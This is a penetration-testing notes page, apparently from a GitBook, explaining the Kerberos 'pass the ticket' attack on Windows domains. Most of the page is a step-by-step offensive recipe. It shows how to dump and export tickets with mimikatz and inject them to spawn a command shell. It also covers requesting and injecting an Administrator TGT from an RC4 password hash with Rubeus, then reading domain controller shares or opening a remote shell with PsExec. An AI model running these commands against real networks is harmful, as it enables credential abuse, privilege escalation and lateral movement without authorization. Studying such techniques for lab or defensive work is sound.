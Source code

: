 # Pass The Ticket

## Pass The Ticket

In a pass the ticket attack access is gained to a resource of a system \(for example the administrative shares\) using a kerberos ticket that was generated or obtained from a compromised machine \(TGT or TGS\)

{% hint style="info" %}
PtT affects all windows platforms relying on kerberos.
{% endhint %}

run these in mimikatz:

```text
kerberos::list
kerberos::list /export
```

we have the tickets that were saved inside the directory where we had the mimikatz executable.

![](../../../../.gitbook/assets/image%20%28198%29.png)

We go back to the mimikatz terminal. Here, we pass the ticket with the help of ptt module inside the Kerberos module followed by the name of the ticket that we want to pass.to perform the actions as the user that we passed the ticket for we decided to get a cmd as that user. This can be accomplished using the misc::cmd command as shown in the image given below.

```text
kerberos::ptt ticket.kirbi
misc::cmd
```

![](../../../../.gitbook/assets/image%20%28195%29.png)

## Rubeus

[rubeus](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries) is a C\# toolset for raw Kerberos interaction and abuses. 

we will use extract the tickets using Rubeus. This can be done with the help of the asktgt module. Although it is not so sneaky method it gets the work done. We need the domain name, User, Password Hash. When used normally will give the base64 encoded TGT ticket. But Let’s Pass the Ticket as well in the same step

```text
Rubeus.exe asktgt /domain:ignite.local /user:Administrator /rc4: 32196b56ffe6f45e294117b91a83bf38 /ptt
```

or pass the ticket with kirbi file:

```text
Rubeus.exe ptt /ticket:ticket.kirbi
```

now we have the ticket for user administrator and we can access shares:

```text
dir \\overloadDC\\secret_shares
```

or get shell access:

```text
PsExec.exe \\192.168.1.105 cmd.exe
```







